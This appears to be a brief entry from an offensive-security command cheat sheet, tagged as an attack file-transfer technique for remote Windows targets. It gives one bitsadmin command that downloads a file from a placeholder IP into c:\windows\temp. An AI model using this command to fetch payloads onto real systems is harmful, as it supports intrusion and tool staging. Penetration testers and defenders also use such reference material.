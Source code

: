 # Bitadmins

% windows, certutil

## Download file with bitsadmin
#plateform/windows #target/remote #cat/ATTACK/FILE_TRANSFERT 
```
bitsadmin /Transfer myJob http://<ip>/<file|file.txt> <bitsadmin_path>
```

= bitsadmin_path: 'c:\windows\temp'